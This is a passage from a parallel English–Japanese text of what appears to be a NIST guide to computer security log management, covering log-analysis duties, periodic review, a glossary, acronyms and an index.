組織は、システムレベルとインフラストラクチャレベルの間でログ分析の業務をどのように分担するか決め、その後、組織全体でログ管理が効果的に行われるよう管理者に十分な支援を提供する必要がある。分析責任を分担する際、組織は異なる種類のエントリの相対的重要性と、各ログエントリの真の意味を理解するために必要な背景情報に焦点を当てるべきである（should）。分析を行う鍵は、各システムに関連する典型的な活動を理解することである。この理解を得る最も効果的な方法は、ログデータの一部を毎日確認・分析することである。日々のログエントリには、重要である可能性が最も高いと判断されたエントリと、まだ完全に理解されていないエントリも含めるべきである（should）。典型的なログエントリを理解することは、ログエントリの自動フィルタリングを構成する際にも役立つ。最重要ログエントリに注意を集中させるため、組織は複数の要因の組み合わせに基づいて、各ログエントリに独自の優先度を割り当てることを検討すべきである（should）。
System-level administrators need to perform analysis of their log data in essentially the same way as infrastructure administrators. System-level administrators usually perform analysis for log entries that are not sent to the infrastructure, as well as entries that cannot be understood without context that is only available at the system level. When administrators performing analysis find an event of significance, they should follow the organization’s incident response procedures to ensure it is addressed appropriately, or perform their own response if it is a non-incident event, such as a minor operational problem. Administrators should be prepared to alter their logging configurations as part of a response, either to prevent an event from overwhelming the system and its logs, or to collect additional information on an event.
システムレベル管理者は、基本的にインフラストラクチャ管理者と同じ方法でログデータを分析する必要がある。システムレベル管理者は通常、インフラストラクチャに送信されないログエントリと、システムレベルでしか得られない背景情報がなければ理解できないエントリを分析する。分析を行う管理者が重要イベントを発見した場合、適切に対処されるよう組織のインシデント対応手順に従うべきであり（should）、軽微な運用上の問題などインシデントではないイベントであれば自ら対応すべきである。管理者は、イベントによるシステムやそのログへの過負荷を防ぐため、またはイベントに関する追加情報を収集するため、対応の一環としてロギング構成を変更する準備をしておくべきである（should）。
Organizations should perform testing and validation activities periodically to confirm that that the organization’s logging policies, processes, and procedures are being followed both at the infrastructure level and the system level throughout the organization. Organizations should also review the design of the log management infrastructure periodically and implement changes as needed. Periodic reviews of log management processes and procedures should also be conducted so that log management continues to be effective at detecting the latest threats in changing environments.
組織は、ロギングポリシー、プロセス、手順が組織全体のインフラストラクチャレベルとシステムレベルの両方で遵守されていることを確認するため、定期的に試験および検証を実施すべきである（should）。組織はログ管理インフラストラクチャの設計も定期的に見直し、必要に応じて変更を実施すべきである（should）。変化する環境の最新の脅威をログ管理で引き続き効果的に検知できるよう、ログ管理プロセスおよび手順も定期的に見直すべきである（should）。
Appendix A—Glossary
付録A—用語集
Selected terms used in the Guide to Computer Security Log Management are defined below.
「コンピュータセキュリティログ管理ガイド」で使用する用語の一部を以下に定義する。
Aggregation: See “Event Aggregation”.
集約：「イベント集約」を参照。
Computer Security Log Management: Log management for computer security log data only.
コンピュータセキュリティログ管理：コンピュータセキュリティログデータのみを対象とするログ管理。
Correlation: See “Event Correlation”.
相関：「イベント相関」を参照。
Event: Something that occurs within a system or network.
イベント：システムまたはネットワーク内で発生する事象。
Event Aggregation: The consolidation of similar log entries into a single entry containing a count of the number of occurrences of the event.
イベント集約：類似するログエントリを、イベントの発生回数を含む単一エントリにまとめること。
Event Correlation: Finding relationships between two or more log entries.
イベント相関：2つ以上のログエントリ間の関係を見つけること。
Event Filtering: The suppression of log entries from analysis, reporting, or long-term storage because their characteristics indicate that they are unlikely to contain information of interest.
イベントフィルタリング：特性から関心のある情報を含む可能性が低いと判断されるログエントリを、分析、報告、長期保存の対象から除外すること。
Event Reduction: Removing unneeded data fields from all log entries to create a new log that is smaller.
イベント削減：不要なデータフィールドをすべてのログエントリから除去し、より小さい新しいログを作成すること。
Facility: The message type for a syslog message.
ファシリティ（Facility）：syslogメッセージのメッセージ種別。
Log: A record of the events occurring within an organization’s systems and networks.
ログ：組織のシステムおよびネットワーク内で発生するイベントの記録。
Log Analysis: Studying log entries to identify events of interest or suppress log entries for insignificant events.
ログ分析：関心のあるイベントを識別するためにログエントリを調査すること、または重要でないイベントのログエントリを除外すること。
Log Archival: Retaining logs for an extended period of time, typically on removable media, a storage area network (SAN), or a specialized log archival appliance or server.
ログアーカイブ：通常、リムーバブル媒体、ストレージエリアネットワーク（SAN）、専用ログアーカイブ機器またはサーバーにログを長期間保持すること。
Log Clearing: Removing all entries from a log that precede a certain date and time.
ログ消去：特定の日時より前のすべてのエントリをログから削除すること。
Log Compression: Storing a log file in a way that reduces the amount of storage space needed for the file without altering the meaning of its contents.
ログ圧縮：内容の意味を変えずに、ファイルに必要な保存容量を減らす方法でログファイルを保存すること。
Log Conversion: Parsing a log in one format and storing its entries in a second format.
ログ変換：ある形式のログを解析し、そのエントリを別の形式で保存すること。
Log Entry: An individual record within a log.
ログエントリ：ログ内の個々の記録。
Log File Integrity Checking: Comparing the current message digest for a log file to the original message digest to determine if the log file has been modified.
ログファイル完全性検査：ログファイルの現在のメッセージダイジェストと元のメッセージダイジェストを比較し、ログファイルが変更されたか判断すること。
Log Management: The process for generating, transmitting, storing, analyzing, and disposing of log data.
ログ管理：ログデータを生成、転送、保存、分析、廃棄するプロセス。
Log Management Infrastructure: The hardware, software, networks, and media used to generate, transmit, store, analyze, and dispose of log data.
ログ管理インフラストラクチャ：ログデータの生成、転送、保存、分析、廃棄に使用するハードウェア、ソフトウェア、ネットワーク、媒体。
Log Normalization: Converting each log data field to a particular data representation and categorizing it consistently.
ログ正規化：各ログデータフィールドを特定のデータ表現に変換し、一貫した方法で分類すること。
Log Parsing: Extracting data from a log so that the parsed values can be used as input for another logging process.
ログ解析：解析した値を別のロギングプロセスの入力として使用できるよう、ログからデータを抽出すること。
Log Preservation: Keeping logs that normally would be discarded, because they contain records of activity of particular interest.
ログ保全：特に関心のある活動の記録が含まれるため、通常なら破棄されるログを保持すること（would）。
Log Reduction: Removing unneeded entries from a log to create a new log that is smaller.
ログ削減：不要なエントリをログから除去し、より小さい新しいログを作成すること。
Log Reporting: Displaying the results of log analysis.
ログ報告：ログ分析結果を表示すること。
Log Retention: Archiving logs on a regular basis as part of standard operational activities.
ログ保持：標準的な運用活動の一環として定期的にログをアーカイブすること。
Log Rotation: Closing a log file and opening a new log file when the first log file is considered to be complete.
ログローテーション：最初のログファイルが完了したと判断されたとき、そのファイルを閉じて新しいログファイルを開くこと。
Log Viewing: Displaying log entries in a human-readable format.
ログ表示：人が読める形式でログエントリを表示すること。
Message Digest: A digital signature that uniquely identifies data and has the property that changing a single bit in the data will cause a completely different message digest to be generated.
メッセージダイジェスト：データを一意に識別するデジタル署名であり、データ中の1ビットを変更すると、まったく異なるメッセージダイジェストが生成される性質を持つ。
Normalization: See “Log Normalization”.
正規化：「ログ正規化」を参照。
Rule-Based Event Correlation: Correlating events by matching multiple log entries from a single source or multiple sources based on logged values, such as timestamps, IP addresses, and event types.
ルールベースイベント相関：タイムスタンプ、IPアドレス、イベント種別などの記録値に基づき、単一または複数のソースから複数のログエントリを照合してイベントを相関させること。
Security Information and Event Management Software: A program that provides centralized logging capabilities for a variety of log types.
セキュリティ情報・イベント管理ソフトウェア：さまざまな種類のログを一元的に記録する機能を提供するプログラム。
Syslog: A protocol that specifies a general log entry format and a log entry transport mechanism.
Syslog：一般的なログエントリ形式とログエントリ転送メカニズムを規定するプロトコル。
Appendix B—Acronyms
付録B—略語
Selected acronyms used in the Guide to Computer Security Log Management are defined below.
「コンピュータセキュリティログ管理ガイド」で使用する略語の一部を以下に定義する。
CERT®/CC — CERT® Coordination Center
CERT®/CC — CERT®コーディネーションセンター
CIO — Chief Information Officer
CIO — 最高情報責任者
CMVP — Cryptographic Module Validation Program
CMVP — 暗号モジュール認証プログラム
COTS — Commercial Off-the-Shelf
COTS — 商用既製品
EPS — Events Per Second
EPS — 毎秒イベント数
FFMIA — Federal Financial Management Improvement Act
FFMIA — 連邦財務管理改善法
FIPS — Federal Information Processing Standard
FIPS — 連邦情報処理標準
FISMA — Federal Information Security Management Act
FISMA — 連邦情報セキュリティマネジメント法
FTP — File Transfer Protocol
FTP — ファイル転送プロトコル
GLBA — Gramm-Leach-Bliley Act
GLBA — グラム・リーチ・ブライリー法
GOTS — Government Off-the-Shelf
GOTS — 政府既製品
GRS — General Records Schedule
GRS — 一般記録保存期間表
GUI — Graphical User Interface
GUI — グラフィカルユーザインタフェース
HIPAA — Health Insurance Portability and Accountability Act
HIPAA — 医療保険の相互運用性と説明責任に関する法律
HTTP — Hypertext Transfer Protocol
HTTP — ハイパーテキスト転送プロトコル
IDMEF — Intrusion Detection Message Exchange Format
IDMEF — 侵入検知メッセージ交換フォーマット
IDS — Intrusion Detection System
IDS — 侵入検知システム
IETF — Internet Engineering Task Force
IETF — インターネット技術タスクフォース
IP — Internet Protocol
IP — インターネットプロトコル
IPsec — Internet Protocol Security
IPsec — インターネットプロトコルセキュリティ
IT — Information Technology
IT — 情報技術
ITL — Information Technology Laboratory
ITL — 情報技術研究所
MB — Megabyte
MB — メガバイト
NARA — National Archives and Records Administration
NARA — 米国国立公文書記録管理局
NIST — National Institute of Standards and Technology
NIST — 米国国立標準技術研究所
NTP — Network Time Protocol
NTP — ネットワークタイムプロトコル
OMB — Office of Management and Budget
OMB — 行政管理予算局
OS — Operating System
OS — オペレーティングシステム
PCI DSS Payment Card Industry Data Security Standard
PCI DSS 決済カード業界データセキュリティ標準
RFC — Request for Comments
RFC — Request for Comments
SAN — Storage Area Network
SAN — ストレージエリアネットワーク
SEM — Security Event Management
SEM — セキュリティイベント管理
SHA — Secure Hash Algorithm
SHA — セキュアハッシュアルゴリズム
SIEM — Security Information and Event Management
SIEM — セキュリティ情報イベント管理
SIM — Security Information Management
SIM — セキュリティ情報管理
SNMP — Simple Network Management Protocol
SNMP — 簡易ネットワーク管理プロトコル
SOHO — Small Office/Home Office
SOHO — スモールオフィス／ホームオフィス
SOX — Sarbanes-Oxley Act
SOX — サーベンス・オクスリー法
SP — Special Publication
SP — Special Publication
SSH — Secure Shell
SSH — セキュアシェル
SSL — Secure Sockets Layer
SSL — Secure Sockets Layer
TCP — Transmission Control Protocol
TCP — 伝送制御プロトコル
TLS — Transport Layer Security
TLS — Transport Layer Security
UDP — User Datagram Protocol
UDP — ユーザデータグラムプロトコル
URL — Uniform Resource Locator
URL — Uniform Resource Locator
US-CERT — United States Computer Emergency Readiness Team
US-CERT — 米国コンピュータ緊急事態対応チーム
VLAN — Virtual Local Area Network
VLAN — 仮想LAN
VPN — Virtual Private Networking
VPN — 仮想プライベートネットワーク
XML — Extensible Markup Language
XML — 拡張可能マークアップ言語
This page has been left blank intentionally.
このページは意図的に空白にしてある。
Appendix D—Index
付録D—索引
A
Aggregation. See Event aggregation
集約。「イベント集約」を参照
Aggregator, 3-1
アグリゲータ、3-1
Antimalware software log, 2-2
マルウェア対策ソフトウェアのログ、2-2
Anti-spyware software log, 2-2
スパイウェア対策ソフトウェアのログ、2-2
Antivirus software log, 2-2
ウイルス対策ソフトウェアのログ、2-2
Application log, 2-1, 2-4
アプリケーションログ、2-1、2-4
Audit log, 2-1
監査ログ、2-1
Audit record, 2-4
監査記録、2-4
Authentication server log, 2-2
認証サーバのログ、2-2
C
Collector, 3-1
コレクタ、3-1
Computer security log. See Log
コンピュータセキュリティログ。「ログ」を参照
Context, 5-5
コンテキスト、5-5
Correlation. See Event correlation
相関分析。「イベント相関分析」を参照
D
Data retention policy, 4-7
データ保持ポリシー、4-7
E
Entry. See Log entry
エントリ。「ログエントリ」を参照
Event aggregation, 3-3
イベント集約、3-3
Event correlation, 3-4, 3-10
イベント相関分析、3-4、3-10
Event filtering, 3-3
イベントフィルタリング、3-3
Event reduction, 3-4
イベント削減、3-4
Event response, 5-8
イベント対応、5-8
F
Federal Financial Management Improvement Act (FFMIA), 4-6
連邦財務管理改善法（FFMIA）、4-6
Federal Information Security Management Act of 2002 (FISMA), 2-7
2002年連邦情報セキュリティマネジメント法（FISMA）、2-7
Firewall log, 2-3
ファイアウォールのログ、2-3
G
Gramm-Leach-Bliley Act (GLBA), 2-7
グラム・リーチ・ブライリー法（GLBA）、2-7
H
Health Insurance Portability and Accountability Act of 1996 (HIPAA), 2-7
1996年医療保険の相互運用性と説明責任に関する法律（HIPAA）、2-7
I
Intrusion Detection Message Exchange Format (IDMEF), 2-8
侵入検知メッセージ交換フォーマット（IDMEF）、2-8
Intrusion detection system, 3-10
侵入検知システム、3-10
Intrusion detection system log, 2-2
侵入検知システムのログ、2-2
Intrusion prevention system log, 2-2
侵入防止システムのログ、2-2
L
Log, 2-1
ログ、2-1
Log analysis, 2-10, 3-1, 4-2, 4-5, 5-5
ログ分析、2-10、3-1、4-2、4-5、5-5
Prioritization, 5-6
優先順位付け、5-6
Reporting, 5-8
報告、5-8
Log archival, 3-3, 5-4, 5-9
ログのアーカイブ、3-3、5-4、5-9
Log clearing, 3-5
ログの消去、3-5
Log compression, 3-4
ログの圧縮、3-4
Log content, 2-8
ログの内容、2-8
Log conversion, 3-4
ログの変換、3-4
Log conversion utility, 3-11
ログ変換ユーティリティ、3-11
Log data volume, 2-9
ログデータの量、2-9
Log disposal, 4-4, 5-4, 5-9
ログの廃棄、4-4、5-4、5-9
Log entry, 2-1
ログエントリ、2-1
Log file integrity checking, 3-4
ログファイルの完全性検査、3-4
Log format, 2-9, 5-9
ログ形式、2-9、5-9
Log generation, 2-8, 3-1, 4-4, 5-1
ログの生成、2-8、3-1、4-4、5-1
Log management, 2-1
ログ管理、2-1
Challenges, 2-8
課題、2-8
Duties, 4-1
職務、4-1
Environments, 4-8
環境、4-8
Motivation, 2-7
必要性、2-7
Operational processes, 5-1
運用プロセス、5-1
Policy, 2-10, 4-4, 4-7
ポリシー、2-10、4-4、4-7
Preparation, 4-1
準備、4-1
Priority, 2-10
優先度、2-10
Procedures, 2-10
手順、2-10
Roles and responsibilities, 4-1
役割と責任、4-1
Standard processes, 4-1
標準プロセス、4-1
Support, 2-11
支援、2-11
Testing and validation, 5-10
テストと妥当性確認、5-10
Log management infrastructure, 2-10, 3-1, 3-2
ログ管理基盤、2-10、3-1、3-2
Architecture, 3-1
アーキテクチャ、3-1
Design, 4-9, 5-11
設計、4-9、5-11
Log monitoring, 3-1
ログ監視、3-1
Log normalization, 3-4
ログの正規化、3-4
Log parsing, 3-3
ログの解析（パース）、3-3
Log preservation, 2, 3-3, 4-7
ログの保全、2、3-3、4-7
Log protection, 2-9
ログの保護、2-9
Log reduction, 3-4
ログの削減、3-4
Log reporting, 3-5
ログの報告、3-5
Log retention, 3-3
ログの保持、3-3
Log rotation, 3-3, 5-3
ログローテーション、3-3、5-3
Log rotation utility, 3-11
ログローテーションユーティリティ、3-11
Log security, 5-4
ログのセキュリティ、5-4
Log sources
ログソース
Configuration, 5-1
設定、5-1
Log storage, 2-8, 3-1, 4-4, 5-2, 5-9
ログの保管、2-8、3-1、4-4、5-2、5-9
Log transmission, 4-4
ログの伝送、4-4
Log trustworthiness, 2-7
ログの信頼性、2-7
Log usefulness, 2-6
ログの有用性、2-6
Log viewing, 3-5
ログの閲覧、3-5
Logging network, 3-2
ロギングネットワーク、3-2
M
Message digest, 3-4
メッセージダイジェスト、3-4
N
Network quarantine server log, 2-3
ネットワーク検疫サーバのログ、2-3
Normalization. See Log Normalization
正規化。「ログの正規化」を参照
O
Operating system log, 2-1, 2-4
オペレーティングシステムのログ、2-1、2-4
Out-of-band, 3-2
帯域外、3-2
P
Payment Card Industry Data Security Standard (PCI DSS), 2-8
Payment Card Industry Data Security Standard（PCI DSS）、2-8
R
Remote access software log, 2-2
リモートアクセスソフトウェアのログ、2-2
Router log, 2-3
ルータのログ、2-3
S
Sarbanes-Oxley Act (SOX) of 2002, 2-8
2002年サーベンス・オクスリー法（SOX）、2-8
Security event management (SEM), 3-9
セキュリティイベント管理（SEM）、3-9
Security information and event management (SIEM) software, 3-9
セキュリティ情報イベント管理（SIEM）ソフトウェア、3-9
Security information management (SIM), 3-9
セキュリティ情報管理（SIM）、3-9
Security software, 2-2
セキュリティソフトウェア、2-2
Security software log, 2-1
セキュリティソフトウェアのログ、2-1
Syslog, 3-5
syslog、3-5
Syslog message format, 3-5
syslogメッセージ形式、3-5
Syslog security, 3-7
syslogのセキュリティ、3-7
System event, 2-4
システムイベント、2-4
T
Timestamp, 2-9
タイムスタンプ、2-9
V
Virtual private networking (VPN) log, 2-2
仮想プライベートネットワーク（VPN）のログ、2-2
Visualization tool, 3-10
可視化ツール、3-10
Vulnerability management software log, 2-2
脆弱性管理ソフトウェアのログ、2-2
W
Web proxy log, 2-2
Webプロキシのログ、2-2